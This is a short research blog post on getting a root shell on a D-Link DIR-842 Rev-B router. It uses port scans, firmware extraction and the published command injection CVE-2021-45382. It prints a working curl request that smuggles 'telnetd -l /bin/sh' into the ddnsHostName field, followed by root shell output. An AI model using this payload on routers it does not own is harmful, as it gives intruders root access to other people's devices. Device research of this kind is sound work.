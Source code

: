 +++
title = "D-LINK DIR-842 Rev-B privilege escalation"
description = "A quick blog post on how to enable telnet your REV-B device"
tags = [
"howto",
"research",
"firmware",
"shell",
]
date = "2022-06-06 17:00:00"
categories = [
"Research",
"Exploration",
]
keywords = [
"firmware",
"howto",
"research",
"shell",
]
menu = "main"
images = ["/dlink/dir-842-revb-auth.png"]
+++


In this quick blog post we'll see how to enable Telnet on your DIR-842 rev-b
![Home](/dlink/dir-842-revb-auth.png)
<!--more-->


# Some background

There are known vulnerabilities on D-Link's DIR-842, but they are about the [rev-C models](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10184).

The rev-B are running a different portal AFAIK, and no exploit for code execution was found during research.

## A first portscan

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:09 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0029s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
MAC Address: 10:62:FF:FF:5A:FF (D-Link International)
```

Other than the usual web interface nothing special to see.

## Firmware extraction

As usual `binwalk` is used on the last firmware.

We're looking for web files and endpoints not mentioned in the web interface itself.

The first candidate we found was 

`http://192.168.0.1/SharePort.html`

![Home](/dlink/dir-842-shareport.png)

This feature shouldn't be present as the device has no USB ports whatsoever.

*So we enabled it :)*

## Exploring SharePort

After enabling the Web File Access, we run another port scan :

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:15 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0029s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
8181/tcp open  intermapper
MAC Address: 10:62:FF:FF:5A:FF (D-Link International)
```

A new port has been opened, revealing another interface :

![Home](/dlink/dir-842-shareport-open.png)

Adding users and trying them doesn't bring any results as most requests are not implemented.

## Switching to CVE-2021-45382 

What is familiar though, is the call to `misc.ccp`, which is made on that portal's login page.

A quick research dig bring up a result for this specific D-Link portal, where `ddns_check.ccp` is vulnerable to 
command injection.

Kudos to [eh-easyhacks](https://eh-easyhacks.blogspot.com/2022/04/cve-2021-45382.html) for the details on the CVE !

You're going to need :

- Be authenticated on port 80, session opened
- `User-Agent` set
- `Referer` set

```shell
curl -kv 'http://192.168.240.1/ddns_check.ccp' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36' \
  -H 'Referer: http://192.168.240.1:8181/login.asp' \
  --data-raw 'ccp_act=doCheck&ddnsHostName=;telnetd -l /bin/sh;&ddnsUsername=a&ddnsPassword=b' 
```


## Voila

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:23 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0027s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
23/tcp   open  telnet
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
8181/tcp open  intermapper
MAC Address:  10:62:FF:FF:5A:FF (D-Link International)

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds

$ telnet 192.168.240.1
Trying 192.168.240.1...
Connected to 192.168.240.1.
Escape character is '^]'.

# ps auxwww
  PID USER       VSZ STAT COMMAND
    1 root      1388 S    init      
    2 root         0 SW<  [kthreadd]
    3 root         0 SW<  [ksoftirqd/0]
    4 root         0 SW<  [events/0]
    5 root         0 SW<  [khelper]
    8 root         0 SW<  [async/mgr]
   52 root         0 SW<  [kblockd/0]
   72 root         0 SW   [pdflush]
   73 root         0 SW<  [kswapd0]
  636 root         0 SW<  [mtdblockd]
  667 root         0 SWN  [jffs2_gcd_mtd2]
  683 root      1004 S    resetd 
  710 root      1392 S    -/bin/sh 
  711 root     15272 S    ncc2 
 1072 root     15272 S    ncc2 
 1073 root     15272 S    ncc2 
 1074 root     15272 S    ncc2 
 1075 root     15272 S    ncc2 
 1076 root     15272 S    ncc2 
 1077 root     15272 S    ncc2 
 1078 root     15272 S    ncc2 
 1079 root     15272 S    ncc2 
 1080 root     15272 S    ncc2 
 1083 root      1384 S    klogd 
 1108 root      1392 S    crond 
 5294 root      1384 S    syslogd -L -s 16 
 5714 root      1104 S    dnsmasq -o -u root -i br0 -z br0 -a 192.168.240.1 -x 
 5726 root      1136 S    lld2d br0 
 5729 root      1372 S    mDNSResponderPosix -f /var/tmp/mdns_br0.conf -b -P /v
 7698 root      1616 S    proxy br0 54088 0 /var/tmp/proxy.conf 
 7699 root      1624 S <  proxy br0 54088 0 /var/tmp/proxy.conf 
 7924 root      1092 S    radvd -C /var/tmp/radvd_br0.conf -p /var/run/radvd_br
 8303 root      3736 S    jjhttpd -m RUN_HTTP -d /www -P /var/run/jjhttpd_0.pid
 8309 root      1660 S    lanmapd2 br0 
 8380 root      1536 S    wscd -start -both_band_ap -c /var/wsc.conf -w wlan0 -
 8383 root      1040 S    iwcontrol wlan1 wlan0 
 8398 root      1484 S    pppoe-relay -S eth1 -C br0 
 8407 root      3736 S    jjhttpd -m RUN_HTTP -d /www -P /var/run/jjhttpd_0.pid
13574 root      3636 S    jjhttpd -m RUN_HTTP -d /wa_www -P /var/run/jjhttpd_2.
13577 root      3668 S    jjhttpd -m RUN_HTTPS -d /wa_www -P /var/run/jjhttpd_3
17394 root      3668 S    jjhttpd -m RUN_HTTPS -d /www -P /var/run/jjhttpd_1.pi
17532 root      3636 S    jjhttpd -m RUN_HTTP -d /wa_www -P /var/run/jjhttpd_2.
24434 root      1388 S    telnetd -l /bin/sh 
24755 root      1392 S    /bin/sh 
24762 root      1388 R    ps auxwww 
```
